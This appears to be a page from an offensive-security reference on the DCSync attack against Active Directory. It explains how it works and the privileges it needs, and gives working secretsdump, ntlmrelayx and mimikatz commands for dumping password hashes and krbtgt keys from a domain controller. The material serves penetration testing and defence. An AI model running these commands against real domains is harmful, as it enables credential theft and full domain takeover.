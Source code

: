 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

**This attack requires domain admin privileges** to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../access-controls/grant-rights.md).

{% hint style="info" %}
A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File       | Content                                                   |
| ---------- | --------------------------------------------------------- |
| .ntds      | LM and NT password hashes                                 |
| .cleartext | Passwords stored using reversible encryption              |
| .kerberos  | Kerberos keys (DES, AES128 and AES256)                    |
| .sam       | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets   | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../kerberos/forged-tickets.md#golden-ticket) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](../../ntlm/pth.md) or [pass-the-ticket](../../kerberos/ptt.md)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}
